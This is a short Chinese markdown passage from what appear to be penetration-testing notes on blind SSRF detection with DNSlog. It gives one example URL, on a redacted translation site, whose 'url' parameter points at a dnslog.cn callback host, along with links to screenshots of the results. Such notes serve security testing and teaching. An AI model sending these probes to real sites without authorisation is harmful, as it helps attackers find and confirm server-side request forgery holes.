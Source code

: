 ![dnslog平台+漏洞盲打合集](https://github.com/pzspsh/intelligentlibrary/blob/main/images/dnslog-xxe盲打测试结果.png)



# ssrf-dnslog+实战案例

一、某翻译-dnslog

http://xxxx.xxx.com/webTransPc/index.html?from=zh-CHS&to=en&type=1&url=http://os1gxn.dnslog.cn

![dnslog平台+漏洞盲打合集](https://github.com/pzspsh/intelligentlibrary/blob/main/images/dnslog-ssrf测试.png)

![dnslog平台+漏洞盲打合集](https://github.com/pzspsh/intelligentlibrary/blob/main/images/dnslog-ssrf盲打测试结果.png)
